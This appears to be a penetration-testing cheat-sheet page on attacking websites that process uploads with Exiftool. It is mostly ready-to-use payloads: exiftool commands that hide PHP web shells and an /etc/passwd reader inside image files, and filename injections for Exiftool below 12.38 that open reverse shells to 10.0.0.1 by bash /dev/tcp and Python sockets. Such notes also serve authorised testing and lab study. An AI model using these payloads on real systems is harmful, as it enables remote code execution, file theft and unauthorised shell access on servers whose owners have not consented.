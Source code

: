 ```yaml
---
title: File Upload Attack on Exiftool
description: If website uses Exiftool to analyze uploaded files, we might be able to exploit the vulnerabilities.
tags:
    - Web
refs:
date: 2023-08-24
draft: false
---
```


## Polyglot Attack

We might be able to execute remote code by polyglotting the original plain image file.  
At first, create a blank image file as below, but this step may be not required if you already have some image file.

```sh
convert -size 32x32 xc:white test.jpg
```

Then insert **OS command** with **exiftool**.

```sh
exiftool -Comment="<?php system('ls'); ?>" example.png
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

<br /><br />

## Command Injection (version < v12.38)

On Exiftool version lower than **12.38**, we can inject **OS command** in the filename when uploading.

```bash
# Ping
filename="touch test; ping -c 1 10.0.0.1 |"

# Reverse shell
filename="touch test; bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |"
filename="touch test; bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\" |"
filename="touch test; python3 -c 'import socket,os,pty;s=socket.socket();s.connect((\"10.0.0.1\", 1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"bash\")' |"
```

